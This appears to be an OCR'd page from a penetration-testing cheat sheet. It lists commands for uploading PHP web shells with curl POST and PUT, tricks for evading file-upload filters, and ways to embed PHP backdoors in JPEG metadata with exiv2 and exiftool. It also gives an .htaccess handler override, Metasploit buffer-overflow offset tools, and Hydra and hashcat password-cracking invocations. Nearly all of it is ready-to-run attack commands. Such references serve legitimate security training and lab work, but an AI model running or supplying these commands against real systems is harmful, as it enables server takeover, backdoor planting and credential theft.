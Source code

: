 Uploading/POSTing Files Through WWW Upload Forms

# POST file
curl -X POST -F "file=@/file/location/shell.php" http://$TARGET/upload.php --cookie "cookie"

# POST binary data to web form
curl -F "field=<shell.zip" http://$TARGET/upld.php -F 'k=v' --cookie "k=v;" -F "submit=true" -L -v

PUTing File on the Webhost via PUT verb

curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php

Generating Payload Pattern & Calculating Offset

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q $EIP_VALUE

Bypassing File Upload Restrictions

    file.php -> file.jpg

    file.php -> file.php.jpg

    file.asp -> file.asp;.jpg

    file.gif (contains php code, but starts with string GIF/GIF98)

    00%

    file.jpg with php backdoor in exif (see below)

    .jpg -> proxy intercept -> rename to .php

Injecting PHP into JPEG

exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png

Uploading .htaccess to interpret .blah as .php

AddType application/x-httpd-php .blah

Cracking Passwords
Cracking Web Forms with Hydra

hydra 10.10.10.52 http-post-form -L /usr/share/wordlists/list "/endpoint/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s PORT -P /usr/share/wordlists/list

Cracking Common Protocols with Hydra

hydra 10.10.10.52 -l username -P /usr/share/wordlists/list ftp|ssh|smb://10.0.0.1

HashCat Cracking

# Bruteforce based on the pattern;
hashcat -a3 -m0 mantas?d?d?d?u?u?u --force --potfile-disable --stdout  

# Generate password candidates: wordlist + pattern;
hashcat -a6 -m0 "e99a18c428cb38d5f260853678922e03" yourPassword|/usr/share/wordlists/rockyou.txt ?d?d?d?u?u?u --force --potfile-disable --stdout
